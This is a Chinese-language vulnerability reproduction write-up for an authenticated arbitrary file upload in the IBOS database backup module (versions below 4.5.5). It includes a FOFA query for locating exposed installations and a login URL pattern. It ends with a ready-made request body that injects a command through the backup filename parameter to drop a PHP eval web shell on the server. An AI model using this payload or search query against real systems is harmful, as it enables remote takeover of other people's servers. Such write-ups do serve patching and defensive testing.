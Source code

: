 # IBOS 数据库模块 任意文件上传漏洞

## 漏洞描述

IBOS 后台数据库模块 存在任意文件上传漏洞，攻击者进入后台后可以上传恶意文件控制服务器

## 漏洞影响

> [!NOTE]
>
> IBOS < 4.5.5

## FOFA

> [!NOTE]
>
> body="IBOS" && body="login-panel"

## 漏洞复现

登录页面如下

```
http://xxx.xxx.xxx.xxx/?r=dashboard/default/login
```

![](image/IBOS-1.PNG)

找到数据库备份模块

![](image/ibos-2.png)

提交并抓包

![](image/ibos-3.png)

修改filename参数发送包会上传peiqi.php文件到根目录

```
backuptype=all&custom_enabled=1&method=shell&sizelimit=2048&extendins=0&sqlcompat=MYSQL41&sqlcharset=utf8&usehex=0&usezip=0&filename=peiqi%26echo "<?php eval($_REQUEST[peiqi]);?>">peiqi%PATHEXT:~0,1%php%26peiqi&dbSubmit=1
```

![](image/ibos-4.png)